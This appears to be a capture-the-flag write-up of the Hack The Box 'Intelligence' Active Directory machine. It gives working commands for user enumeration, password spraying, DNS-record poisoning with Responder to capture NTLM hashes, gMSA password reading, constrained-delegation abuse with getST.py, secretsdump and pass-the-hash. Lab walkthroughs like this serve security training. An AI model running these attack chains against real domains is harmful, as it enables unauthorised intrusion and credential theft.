Overview
Intelligence was my best HTB Machine yet, where it was realist environment and real life scenario. Intelligence was based in Active Directory Penetration Test and mostly depeneds in enumeration to found a way into the Domain Admin. My HTB profile link
Machine Info

| Operating System | Difficulty | IP |
|---|---|---|
| Windows | Medium | 10.10.10.248 |
Walkthrough
Recon
nmap
PORT STATE SERVICE REASON VERSION
53/tcp open domain syn-ack Simple DNS Plus
80/tcp open http syn-ack Microsoft IIS httpd 10.0
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods:
| Supported Methods: OPTIONS TRACE GET HEAD POST
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Intelligence
88/tcp open kerberos-sec syn-ack Microsoft Windows Kerberos (server time: 2021-07-04 20:46:20Z)
135/tcp open msrpc syn-ack Microsoft Windows RPC
139/tcp open netbios-ssn syn-ack Microsoft Windows netbios-ssn
389/tcp open ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA/domainComponent=intelligence
445/tcp open microsoft-ds? syn-ack
464/tcp open kpasswd5? syn-ack
593/tcp open ncacn_http syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA/domainComponent=intelligence
3268/tcp open ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA/domainComponent=intelligence
3269/tcp open ssl/ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
By looking into nmap scanning results, we will discover that the host is Domain Controller. Furthermore, port 80, 139, 445 are opened so we can enumerate web service and SMB shared folders.
Web Enumeration
During inspecting the web application, we will identify a new directory /documents that contains multiple PDF files. Two documents can be identify if we hover over download button: http://10.10.10.248/documents/2020-01-01-upload.pdf and http://10.10.10.248/documents/2020-12-15-upload.pdf


After downloading the PDF documents, I used exiftool to check the creator of document in order to enumerate domain users.

From the pattern of the PDF files name I identified that the naming format is using 2020-##-##-upload.pdf where is ## is two digits.
Fuzzing Documents
Collecting Domain Users
With the knowledge of this, made a list of 4 digits to run wfuzz in order to find valid PDF documents.
- I used the following command to create a sequence of 4 digits and insert
-in the middle:
bash
seq -w 0000 9999 | sed 's/../&-/' > nums
- Then, I run
wfuzzto fuzz target URL with my created list of 4 digits:
bash
wfuzz -c -z file,nums -f output.json,json --sc 200 http://10.10.10.248/documents/2020-FUZZ-upload.pdf

- After that, collected all valid documents and I made a Python script to auto download the valid documents:
import requests
from multiprocessing.pool import ThreadPool
def download_url(url):
print("downloading: ",url)
file_name_start_pos = url.rfind("/") + 1
file_name = url[file_name_start_pos:]
r = requests.get(url, stream=True)
if r.status_code == requests.codes.ok:
with open(file_name, 'wb') as f:
for data in r:
f.write(data)
return url
urls = ["http://10.10.10.248/documents/2020-01-04-upload.pdf",
"http://10.10.10.248/documents/2020-01-02-upload.pdf",
"http://10.10.10.248/documents/2020-01-01-upload.pdf",
"http://10.10.10.248/documents/2020-01-10-upload.pdf",
"http://10.10.10.248/documents/2020-01-22-upload.pdf",
"http://10.10.10.248/documents/2020-01-30-upload.pdf",
"http://10.10.10.248/documents/2020-01-25-upload.pdf",
"http://10.10.10.248/documents/2020-01-23-upload.pdf",
"http://10.10.10.248/documents/2020-01-20-upload.pdf",
"http://10.10.10.248/documents/2020-02-11-upload.pdf",
"http://10.10.10.248/documents/2020-02-28-upload.pdf",
"http://10.10.10.248/documents/2020-02-24-upload.pdf",
"http://10.10.10.248/documents/2020-02-23-upload.pdf",
"http://10.10.10.248/documents/2020-02-17-upload.pdf",
"http://10.10.10.248/documents/2020-03-04-upload.pdf",
"http://10.10.10.248/documents/2020-03-05-upload.pdf",
"http://10.10.10.248/documents/2020-03-12-upload.pdf",
"http://10.10.10.248/documents/2020-03-21-upload.pdf",
"http://10.10.10.248/documents/2020-03-17-upload.pdf",
"http://10.10.10.248/documents/2020-03-13-upload.pdf",
"http://10.10.10.248/documents/2020-04-04-upload.pdf",
"http://10.10.10.248/documents/2020-04-02-upload.pdf",
"http://10.10.10.248/documents/2020-04-23-upload.pdf",
"http://10.10.10.248/documents/2020-04-15-upload.pdf",
"http://10.10.10.248/documents/2020-05-07-upload.pdf",
"http://10.10.10.248/documents/2020-05-03-upload.pdf",
"http://10.10.10.248/documents/2020-05-01-upload.pdf",
"http://10.10.10.248/documents/2020-05-24-upload.pdf",
"http://10.10.10.248/documents/2020-05-29-upload.pdf",
"http://10.10.10.248/documents/2020-05-21-upload.pdf",
"http://10.10.10.248/documents/2020-05-20-upload.pdf",
"http://10.10.10.248/documents/2020-05-17-upload.pdf",
"http://10.10.10.248/documents/2020-05-11-upload.pdf",
"http://10.10.10.248/documents/2020-06-21-upload.pdf",
"http://10.10.10.248/documents/2020-06-30-upload.pdf",
"http://10.10.10.248/documents/2020-06-28-upload.pdf",
"http://10.10.10.248/documents/2020-06-25-upload.pdf",
"http://10.10.10.248/documents/2020-06-26-upload.pdf",
"http://10.10.10.248/documents/2020-06-22-upload.pdf",
"http://10.10.10.248/documents/2020-06-15-upload.pdf",
"http://10.10.10.248/documents/2020-06-14-upload.pdf",
"http://10.10.10.248/documents/2020-06-12-upload.pdf",
"http://10.10.10.248/documents/2020-06-08-upload.pdf",
"http://10.10.10.248/documents/2020-06-04-upload.pdf",
"http://10.10.10.248/documents/2020-06-07-upload.pdf",
"http://10.10.10.248/documents/2020-06-03-upload.pdf",
"http://10.10.10.248/documents/2020-06-02-upload.pdf",
"http://10.10.10.248/documents/2020-07-08-upload.pdf",
"http://10.10.10.248/documents/2020-07-06-upload.pdf",
"http://10.10.10.248/documents/2020-07-02-upload.pdf",
"http://10.10.10.248/documents/2020-07-24-upload.pdf",
"http://10.10.10.248/documents/2020-07-20-upload.pdf",
"http://10.10.10.248/documents/2020-08-20-upload.pdf",
"http://10.10.10.248/documents/2020-08-19-upload.pdf",
"http://10.10.10.248/documents/2020-08-09-upload.pdf",
"http://10.10.10.248/documents/2020-08-01-upload.pdf",
"http://10.10.10.248/documents/2020-08-03-upload.pdf",
"http://10.10.10.248/documents/2020-09-05-upload.pdf",
"http://10.10.10.248/documents/2020-09-04-upload.pdf",
"http://10.10.10.248/documents/2020-09-02-upload.pdf",
"http://10.10.10.248/documents/2020-09-06-upload.pdf",
"http://10.10.10.248/documents/2020-09-29-upload.pdf",
"http://10.10.10.248/documents/2020-09-27-upload.pdf",
"http://10.10.10.248/documents/2020-09-22-upload.pdf",
"http://10.10.10.248/documents/2020-09-16-upload.pdf",
"http://10.10.10.248/documents/2020-09-11-upload.pdf",
"http://10.10.10.248/documents/2020-09-13-upload.pdf",
"http://10.10.10.248/documents/2020-09-30-upload.pdf",
"http://10.10.10.248/documents/2020-10-05-upload.pdf",
"http://10.10.10.248/documents/2020-10-19-upload.pdf",
"http://10.10.10.248/documents/2020-11-10-upload.pdf",
"http://10.10.10.248/documents/2020-11-06-upload.pdf",
"http://10.10.10.248/documents/2020-11-03-upload.pdf",
"http://10.10.10.248/documents/2020-11-01-upload.pdf",
"http://10.10.10.248/documents/2020-11-13-upload.pdf",
"http://10.10.10.248/documents/2020-11-11-upload.pdf",
"http://10.10.10.248/documents/2020-11-30-upload.pdf",
"http://10.10.10.248/documents/2020-11-24-upload.pdf",
"http://10.10.10.248/documents/2020-12-15-upload.pdf",
"http://10.10.10.248/documents/2020-12-10-upload.pdf",
"http://10.10.10.248/documents/2020-12-30-upload.pdf",
"http://10.10.10.248/documents/2020-12-28-upload.pdf",
"http://10.10.10.248/documents/2020-12-24-upload.pdf",
"http://10.10.10.248/documents/2020-12-20-upload.pdf"
]
results = ThreadPool(5).imap_unordered(download_url, urls)
for r in results:
print(r)
- Finally I collected all the users from downloaded documents using
exiftool.
exiftool 2020-01-01-upload.pdf | grep "Creator" | cut -f 2 -d ":" | cut -f 2 -d " " > users.txt
cat users.txt
William.Lee
Scott.Scott
Jason.Wright
Veronica.Patel
Jennifer.Thomas
Danny.Matthews
David.Reed
Stephanie.Young
Daniel.Shelton
...
Obtain the Password
Let's search for the password from documents. Since we have many PDF documents I created another Python script to automate the process of extracting the text from the all downloaded PDF documents:
#!/usr/bin/python3
import fitz
files = ["2020-01-04-upload.pdf",
"2020-01-02-upload.pdf",
"2020-01-01-upload.pdf",
"2020-01-10-upload.pdf",
"2020-01-22-upload.pdf",
"2020-01-30-upload.pdf",
"2020-01-25-upload.pdf",
"2020-01-23-upload.pdf",
"2020-01-20-upload.pdf",
"2020-02-11-upload.pdf",
"2020-02-28-upload.pdf",
"2020-02-24-upload.pdf",
"2020-02-23-upload.pdf",
"2020-02-17-upload.pdf",
"2020-03-04-upload.pdf",
"2020-03-05-upload.pdf",
"2020-03-12-upload.pdf",
"2020-03-21-upload.pdf",
"2020-03-17-upload.pdf",
"2020-03-13-upload.pdf",
"2020-04-04-upload.pdf",
"2020-04-02-upload.pdf",
"2020-04-23-upload.pdf",
"2020-04-15-upload.pdf",
"2020-05-07-upload.pdf",
"2020-05-03-upload.pdf",
"2020-05-01-upload.pdf",
"2020-05-24-upload.pdf",
"2020-05-29-upload.pdf",
"2020-05-21-upload.pdf",
"2020-05-20-upload.pdf",
"2020-05-17-upload.pdf",
"2020-05-11-upload.pdf",
"2020-06-21-upload.pdf",
"2020-06-30-upload.pdf",
"2020-06-28-upload.pdf",
"2020-06-25-upload.pdf",
"2020-06-26-upload.pdf",
"2020-06-22-upload.pdf",
"2020-06-15-upload.pdf",
"2020-06-14-upload.pdf",
"2020-06-12-upload.pdf",
"2020-06-08-upload.pdf",
"2020-06-04-upload.pdf",
"2020-06-07-upload.pdf",
"2020-06-03-upload.pdf",
"2020-06-02-upload.pdf",
"2020-07-08-upload.pdf",
"2020-07-06-upload.pdf",
"2020-07-02-upload.pdf",
"2020-07-24-upload.pdf",
"2020-07-20-upload.pdf",
"2020-08-20-upload.pdf",
"2020-08-19-upload.pdf",
"2020-08-09-upload.pdf",
"2020-08-01-upload.pdf",
"2020-08-03-upload.pdf",
"2020-09-05-upload.pdf",
"2020-09-04-upload.pdf",
"2020-09-02-upload.pdf",
"2020-09-06-upload.pdf",
"2020-09-29-upload.pdf",
"2020-09-27-upload.pdf",
"2020-09-22-upload.pdf",
"2020-09-16-upload.pdf",
"2020-09-11-upload.pdf",
"2020-09-13-upload.pdf",
"2020-09-30-upload.pdf",
"2020-10-05-upload.pdf",
"2020-10-19-upload.pdf",
"2020-11-10-upload.pdf",
"2020-11-06-upload.pdf",
"2020-11-03-upload.pdf",
"2020-11-01-upload.pdf",
"2020-11-13-upload.pdf",
"2020-11-11-upload.pdf",
"2020-11-30-upload.pdf",
"2020-11-24-upload.pdf",
"2020-12-15-upload.pdf",
"2020-12-10-upload.pdf",
"2020-12-30-upload.pdf",
"2020-12-28-upload.pdf",
"2020-12-24-upload.pdf",
"2020-12-20-upload.pdf"
]
for i in files:
with fitz.open(i) as doc:
text = ""
for page in doc:
text += page.getText()
print(text)
By running the script and go through the output we will identify the password which is NewIntelligenceCorpUser9876

Password Spray
With the obtained password, now we can run password spray against the collected domain users:
crackmapexec smb 10.10.10.248 -u users.txt -p "NewIntelligenceCorpUser9876"

We obtained user tiffany.molina credentials. Now we can get user.txt from users shared file using smbclient.
smbclient \\\\10.10.10.248\\Users -U 'workgroup\Tiffany.Molina'

Pivot to Ted.Graves
SMB Shares Enumeration
The domain user Tiffany.Molina have also access to IT shared folder, let's inspect it.
Ξ Intelligence/dump → smbclient \\\\10.10.10.248\\IT -U 'workgroup\Tiffany.Molina'
Enter WORKGROUP\Tiffany.Molina's password:
Try "help" to get a list of possible commands.
smb: \> ls
. D 0 Sun Apr 18 20:50:55 2021
.. D 0 Sun Apr 18 20:50:55 2021
downdetector.ps1 A 1046 Sun Apr 18 20:50:55 2021
3770367 blocks of size 4096. 1362603 blocks available
smb: \> get downdetector.ps1
I found Powershell script inside IT shared folder.
By inspecting the Powershell script, I identified that the script runs every 5 minutes, it makes a request to web server that contains web*.
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*") {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
Obtain Ted.Graves NTLM Hash
We can abuse this by adding a DNS record using dnstool and run Responder to receive the NTLM hash of the user ted.graves.
dnstoolcan be found here
python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p NewIntelligenceCorpUser9876 --action add -r websomething.intelligence.htb -d 10.10.14.x 10.10.10.248

Then run responder to receive the NTLM hash
sudo responder -I tun0

Obtain Ted.Graves Password
Now we found the NTLM hash of the user ted.graves, we can use hashcat to crack it:
hashcat -a 0 -m 5600 ted.graves-ntlm /usr/share/wordlists/rockyou.txt --force

Enumerate the Domain Controller
Running BloodHound
After obtaining ted.graves credentials lets run BloodHound to enumerate the Domain Controller, in order to find any path to Domain Admin.
We can use bloodhound-python in Kali, but I prefer to use the Windows Powershell version because it give us more accurate results.
To use
bloodhound-pythonuse the following command:
bash bloodhound-python -u 'ted.graves' -p 'Mr.Teddy' -ns 10.10.10.248 -d intelligence.htb -c all --dns-tcpBut it will not give you all attack paths.

BloodHound gave us a new attack path into Domain Admin. ted.graves is member of IT Support group, which all members of IT Support group can read gMSAPassword of SVC_INT domain user. SVC_INT is allowed to delegate into the Domain Controller.
With this known now we can compromise the Domain Controller by chaining two attack paths:
1- Reading gMSAPassword of the domain user SVC_INT.
Further Reading: https://stealthbits.com/blog/securing-gmsa-passwords/
2- Constrained Delegation.
Further Reading: https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation
Privilege Escalation
Abuse gMSA Password
Again we can use Kali or Windows to abuse this misconfiguration. I used Windows to obtain SVC_INT NTLM hash using the following command:
$gmsa = Get-ADServiceAccount -Identity 'SVC_INT' -Properties 'msDS-ManagedPassword' -Server 10.10.10.248
$blob = $gmsa.'msDS-ManagedPassword'
$mp = ConvertFrom-ADManagedPasswordBlob $blob
$hash1 = ConvertTo-NTHash -Password $mp.SecureCurrentPassword
Or from Kali Linux we can use gMSADumper from this link
python3 gMSADumper.py -u ted.graves -p Mr.Teddy -d intelligence.htb
svc_int$:::d64b83fe606e6d3005e20ce0ee932fe2
We found domain user SVC_INT NTLM hash which is d64b83fe606e6d3005e20ce0ee932fe2
Abuse Constrained Delegation
First of all, we need to find which service that SVC_INT can access. We can use rpcclient from Kali or Get-DomainComputer from PowerView module.
I found that the domain user SVC_INT can access the service www/dc.intelligence.htb.
Now we have service which we can abuse to request a Kerberos tickets to exploit delegation configuration. We can use Impackets getST.py to impersonate the administrator by passing flag -impersonate.
getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :d64b83fe606e6d3005e20ce0ee932fe2 -impersonate Administrator
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
Before running the command make sure Kali time is sync with the target machine.
bash sudo ntpdate 10.10.10.248
Obtaining administrator tickets will allow us to have full administrator privilege in the Domain Controller, we can pass the tickets to dump all domain controller NTLM hashes. But before that we have to store the into the variable KRB4CCNAME:
export KRB5CCNAME=Administrator.ccache
Finally, I used Impacket tool secretdumps.py to dump all domain users hashes including the Domain Admin.
secretsdump.py -k -no-pass dc.intelligence.htb

We will find the NTLM hash of the Domain Admin.


We can use Domain Admin NTLM hash as pass the hash to read root.txt flag using crackmapexec

crackmapexec smb 10.10.10.248 -u administrator -H '9075113fe16cf74f7c0f9b27e882dad3' -x 'more C:\users\administrator\desktop\root.txt'
Lesson Learned
- Enumerating PDF documents to find users.
- NTLM relay attacks.
- Abuse gMSA Password
- Abuse Constrained Delegation